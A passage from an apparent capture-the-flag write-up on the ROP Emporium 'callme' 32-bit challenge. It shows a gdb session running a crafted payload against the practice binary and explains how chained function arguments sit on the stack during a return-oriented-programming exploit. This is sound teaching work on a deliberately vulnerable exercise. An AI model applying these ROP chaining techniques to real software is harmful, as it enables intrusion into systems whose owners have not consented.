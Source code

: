 ```python
print payload
```
After writing the output of the script to a file named `payload`, I started `gdb`.
```
$ gdb ./callme32 -q
Reading symbols from ./callme32...(no debugging symbols found)...done.
(gdb) b callme_one
Breakpoint 1 at 0x80485c0
(gdb) b callme_two
Breakpoint 2 at 0x8048620
(gdb) r < payload 
Starting program: /home/qh/CTF/ropemporium/callme/32/callme32 < payload
callme by ROP Emporium
32bits

Hope you read the instructions...
> 
Breakpoint 1, 0xf7fcc6d4 in callme_one () from ./libcallme32.so
(gdb) x/6x $ebp
0xffffd2cc:     0x41414141      0x08048620      0x00000001      0x00000002
0xffffd2dc:     0x00000003      0x080485b0
(gdb) c
Continuing.

Breakpoint 2, 0xf7fcc7d2 in callme_two () from ./libcallme32.so
(gdb) x/6x $ebp
0xffffd2d0:     0x41414141      0x00000001      0x00000002      0x00000003
0xffffd2e0:     0x080485b0      0xf7f9000a
(gdb)
```

What I first do is `b callme_one`,`b callme_two`. This sets a "breakpoint" and that makes the program stop executing instructions and return to the debugger. Then I do `r < payload` which makes gdb run the program, with the file contents of `payload` as input. and `x/6x $ebp` to examine the arguments that were passed.
After the first examination you can see that after `0x41414141` is the address of `callme_two`. And the arguments on the stack look like this (schematically):
```
+-----------+
|    0x1    |
+-----------+
|    0x2    |
+-----------+
|    0x3    |
+-----------+
```
This works fine. But after `callme_one` there is no other return address, so then `0x00000001`  becomes the return address and the arguments on the stack look like this:
```
+-------------+
|     0x2     |
+-------------+
|     0x3     |
+-------------+
| 0x080485b0  |
+-------------+
```
